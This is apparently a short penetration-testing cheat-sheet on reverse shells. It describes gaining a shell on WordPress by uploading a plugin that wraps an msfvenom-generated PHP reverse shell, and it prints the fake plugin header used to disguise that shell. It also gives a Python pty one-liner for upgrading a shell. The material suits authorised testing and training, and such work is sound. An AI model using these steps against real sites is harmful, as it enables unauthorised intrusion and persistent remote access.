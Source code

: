 # Reverse Shells
Reverse shells which are not on the (pentestmonkey's master piece)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet]
## Links
- https://github.com/ryohare/cheatsheets.git
## Wordpress
### Plugin Upload
With admin access, generate a php/reverse_php with `msfvenom` then need to prefix with the correct header.
```php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/
```

### Upgrade shells
```python
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=linux
```
